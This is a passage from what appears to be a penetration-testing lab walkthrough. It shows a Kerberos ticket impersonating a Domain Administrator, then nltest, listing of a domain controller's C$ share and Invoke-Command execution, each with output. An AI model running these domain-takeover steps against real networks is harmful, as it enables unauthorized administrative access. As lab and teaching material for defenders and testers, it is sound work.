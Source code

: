    ```

   Cached Tickets: (1)

   #0>     Client: Administrator @ BOSSMANBEN.LOCAL
           Server: krbtgt/BOSSMANBEN.LOCAL @ BOSSMANBEN.LOCAL
           KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
           Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
           Start Time: 7/12/2019 16:38:17 (local)
           End Time:   7/13/2019 2:38:17 (local)
           Renew Time: 7/19/2019 16:38:17 (local)
           Session Key Type: AES-256-CTS-HMAC-SHA1-96
           Cache Flags: 0x1 -> PRIMARY
           Kdc Called:
   ```
   __NOTE(S)__:
   - The current ticket for the session is now `Administrator @ BOSSMANBEN.LOCAL` which is a Domain Administrator
   - The current PSSession should now be able to impersonate the Domain Administrator
4. Check if the Domain Controller (BOSSMANBEN) now accessible:
   - Get the Primary Domain Controller for BOSSMANBEN:
     ```ps1
     nltest /DCNAME:BOSSMANBEN
     ```
     ```
     PDC for Domain BOSSMANBEN is \\WIN-BO2CT95INDP
     The command completed successfully
     ```
   - List contents of the file share, `C$`:
     ```ps1
     dir \\WIN-BO2CT95INDP\C$
     ```
     ```
   
         Directory: \\WIN-BO2CT95INDP\C$


     Mode                LastWriteTime         Length Name
     ----                -------------         ------ ----
     d-----       16/07/2016   6:23 AM                PerfLogs
     d-r---       09/07/2019   3:01 PM                Program Files
     d-----       16/07/2016   6:23 AM                Program Files (x86)
     d-r---       09/07/2019   3:01 PM                Users
     d-----       09/07/2019   3:10 PM                Windows
     -a----       11/07/2019  12:53 PM              5 gg

     ```
   - Pass commands as the Domain Administrator:
     ```ps1
     Invoke-Command -ComputerName WIN-BO2CT95INDP -ScriptBlock { whoami }
     ```
     ```
     bossmanben\administrator
     ```
   __NOTE(S)__:
   - The file shares in the Domain Controller (BOSSMANBEN) are now accessible as long as the Domain Controller is being accessed using kerberos authentication.
   - Commands could also now be executed in the context of the Domain Controller (BOSSMANBEN) using the `Invoke-Command` module in PowerShell.
